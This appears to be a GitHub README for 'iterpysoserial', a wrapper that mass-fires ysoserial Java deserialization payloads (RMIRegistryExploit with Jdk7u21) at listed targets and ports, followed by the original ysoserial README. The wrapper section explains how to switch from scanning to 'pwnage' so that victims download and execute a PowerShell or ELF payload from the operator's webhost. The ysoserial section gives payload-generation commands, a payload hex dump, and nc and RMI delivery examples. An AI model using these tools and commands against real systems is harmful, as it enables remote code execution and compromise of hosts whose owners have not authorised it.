 # iterpysoserial 

Default settings will throw the RMIRegistryExploit and Jdk7u21 payload combination over the ports listed in ports.txt against the systems you've defined in targets.txt. 

You must define targets in targets.txt
You must define a webhost (--host), this will serve up your ps1 or elf.
You must define a webhost port (--port), this is the port that victim will connect to your webhost on. 

This should be considered a scanner and so a lot of noise should be expected.

For pwnage, comment out the first command that tells your webhost which system is vulnerable to what and uncomment out the second command which will download and execute a payload. There is also a set of commands you can walk through to exploit linux/aix systems.

If you're so inclined, feel free to use all the payloads instead of only Jdk7u21. I haven't played with a lot of the newer payloads that are included now, but my experience from when this was relatively new showed that more than 90% of the time if Groovy1 or any of the Sping or CommonCollections payloads worked, so did Jdk7u21. 




# ysoserial 

[![Join the chat at https://gitter.im/frohoff/ysoserial](https://badges.gitter.im/frohoff/ysoserial.svg)](https://gitter.im/frohoff/ysoserial?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge) [![Download Latest Snapshot](https://img.shields.io/badge/download-master--SNAPSHOT-green.svg)](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![](https://github.com/frohoff/ysoserial/blob/master/ysoserial.png)

## Description

Released as part of AppSecCali 2015 Talk ["Marshalling Pickles: how deserializing objects will ruin your day"](http://frohoff.github.io/appseccali-marshalling-pickles/) with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x). 
Later updated to include additional gadget chains for [JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and [Apache Commons Beanutils](https://gist.github.com/frohoff/9eb8811761ff989b3ac0).

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java 
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of objects. 
The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers 
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$ java -jar target/ysoserial-0.0.4-all.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'
        Available payload types:
                BeanShell1 [org.beanshell:bsh:2.0b5]
                CommonsBeanutilsCollectionsLogging1 [commons-beanutils:commons-beanutils:1.9.2, commons-collections:commons-collections:3.1, commons-logging:commons-logging:1.2]
                CommonsCollections1 [commons-collections:commons-collections:3.1]
                CommonsCollections2 [org.apache.commons:commons-collections4:4.0]
                CommonsCollections3 [commons-collections:commons-collections:3.1]
                CommonsCollections4 [org.apache.commons:commons-collections4:4.0]
                Groovy1 [org.codehaus.groovy:groovy:2.3.9]
                Jdk7u21 []
                Spring1 [org.springframework:spring-core:4.1.4.RELEASE, org.springframework:spring-beans:4.1.4.RELEASE]
```

## Examples

```shell
$ java -jar ysoserial-0.0.4-all.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:
       
$ java -jar ysoserial-0.0.4-all.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 < groovypayload.bin

$ java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

1. Download the latest jar from [JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar) [![Download Latest Snapshot](https://img.shields.io/badge/download-master--SNAPSHOT-green.svg)](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar) .

Note that GitHub-hosted releases were removed in compliance with the [GitHub Community Guidelines](https://help.github.com/articles/github-community-guidelines/#what-is-not-allowed)

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request
